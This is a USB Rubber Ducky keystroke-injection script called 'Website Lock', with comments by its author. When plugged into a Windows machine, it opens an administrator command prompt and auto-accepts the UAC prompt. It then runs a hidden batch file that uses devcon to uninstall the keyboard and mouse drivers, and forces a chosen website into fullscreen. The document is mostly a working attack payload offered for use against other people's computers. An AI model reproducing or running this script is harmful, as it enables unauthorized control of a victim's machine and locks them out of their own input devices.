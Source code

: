 The explanation is in the code.
Link to other files: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0 (same link as the one in the code)

Code:
REM Title: Website Lock
REM Author: Audiack
REM Target Ducky Encoder: 2.6.2
REM Target OS: Windows 7 (32 and 64 bit), maybe older/newer windows versions. Haven't tested it on any other than 7.
REM Description: Plays off of Aprizm's script to open a website, but it also disables the mouse and keyboard so the user can't leave the website.
REM Info:
REM     The user can easily unplug and re-plug in the keyboard/mouse to reinstall the drivers get them working again. 
REM     This requires the user to plug a USB drive in with some extra files BEFORE the ducky is plugged in.
REM     The files are here: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0.
REM     Make sure the files are in the root of a drive called DUCKY.
REM     Twin duck works well with this. It is what I used when I was testing it. 
REM File Descriptions:
REM     The devcon32 & devcon64 are the files used to uninstall the keyboard and mouse drivers (for the two architectures).
REM     The invisible.vbs is used to run the batch script invisibly after the video is in fullscreen.
REM     The TheRealAnnoyance.bat is the batch script run in the background that disables their mouse & keyboard.
REM     The WebsiteLink.txt contains the website link. The user can change this as desired. Make sure there are no spaces and there is only a single link.
DELAY 3000
CTRL ESC
DELAY 700
STRING cmd
CTRL-SHIFT ENTER
DELAY 3000
ALT Y
DELAY 700

STRING for /f %d in ('wmic.exe volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%d
ENTER
DELAY 1200
STRING cd /d %myd%
ENTER

DELAY 1000
STRING type "WebsiteLink.txt" | clip
ENTER
DELAY 100
STRING C:/windows/System32/wscript.exe invisible.vbs TheRealAnnoyance.bat
ENTER
DELAY 400

REM Aprizm's code for youtube roller begins here. I changed the link to a ctrl-v so that the ducky pastes the contents of WebsiteLink.txt hence line 20: 'type "WebsiteLink.txt" | clip'
REM Title: Youtube Roller
REM Author: Aprizm
REM Description: This scripts opens a youtube video in fullscreen and puts the browser in fullscreen
REM Option : if you change the link of the video dont forget to change the watch with watch_popup to have it fullscreen also add &loop=1 at the end to make it loop forever
DELAY 200
GUI r
DELAY 200
CTRL V
ENTER
DELAY 1000
F11